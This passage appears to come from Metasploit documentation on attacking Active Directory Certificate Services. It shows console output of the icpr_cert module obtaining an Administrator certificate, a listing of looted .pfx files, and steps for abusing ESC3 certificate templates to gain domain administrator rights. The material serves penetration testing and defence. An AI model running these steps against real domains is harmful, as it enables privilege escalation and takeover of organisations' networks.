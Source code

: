 ```msf

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator`
domain administrator. See the [Getting A Kerberos Ticket](#getting-a-kerberos-ticket) section for more information.

# Exploiting ESC3 To Gain Domain Administrator Privileges
To exploit ESC3 vulnerable templates we will use a similar process to
[[ESC2|attacking-ad-cs-esc-vulnerabilities.md#exploiting-esc2-to-gain-domain-administrator-privileges]] templates but
with slightly different steps. First, let's return to the earlier output where we can find several templates that are
vulnerable to ESC3 attacks. However we need to split them by attack vector. The reason is that the first half of this
attack needs to use the ESC3_TEMPLATE_1 vulnerable certificate templates to enroll in a certificate template that has
the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) that allows one to request certificates on behalf of other
principals (such as users or computers).

The second part of this attack will then require that we co-sign requests for another certificate using the certificate
that we just got, to then request a certificate that can authenticate to the domain on behalf of another user. To do
this we will need to look for certificates in the `ldap_esc_vulnerable_cert_finder` module which are labeled as being
vulnerable to the ESC3_TEMPLATE_2 attack.
